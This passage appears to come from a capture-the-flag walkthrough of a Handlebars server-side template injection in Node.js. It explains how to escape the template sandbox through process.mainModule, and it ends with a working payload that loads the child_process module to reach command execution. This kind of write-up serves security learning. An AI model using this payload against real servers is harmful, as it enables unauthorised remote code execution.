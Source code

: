 ```
```

In the second payload, the focus was on accessing the ```process``` object. This was an important step because it allowed us to interact with the environment outside of the template engine's sandbox, but it was still restricted to the sandboxed ```process``` object.

In this (the third) payload, the strategy evolves to access the ```mainModule``` property of the ```process``` object. The ```mainModule``` refers to the main module that was loaded when the Node.js application started. By gaining access to ```mainModule```, we're likely bypassing the sandbox, since ```mainModule``` can provide access to the main program's scope, including the ability to load other modules (via ```require```) that might not be sandboxed.

The modification changes the line that was returning ```process``` to now return ```process.mainModule```, which aims to break out of the restricted environment entirely by leveraging the main module's broader permissions. This is a significant step up from the previous payload, as it potentially opens the door to unrestricted code execution on the server.

This move from ```process``` to ```process.mainModule``` is key because it shifts the scope of what we can control, aiming for deeper system access by targeting a core part of the application's execution context. From here, we could further explore how to load the ```require``` function directly, which might eventually lead to executing arbitrary commands, or even establishing a reverse shell.

After this digression I am returning to what the official write-up has to say: *URL encode the payload and send it using the Repeater module as shown previously. The following response is returned:*

```
We will contact you at: e
2
[object Object]
function Function() { [native code] }
2
[object Object]
[object Object]
```

*No error this time either and we see an extra object at the end of the response, which means the property is indeed available. Now lets attempt to call ```require``` and load a module. We can load the ```child_process``` module as it is available on default Node.js installations and can be used to execute system commands. Modify the payload as follows:*

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
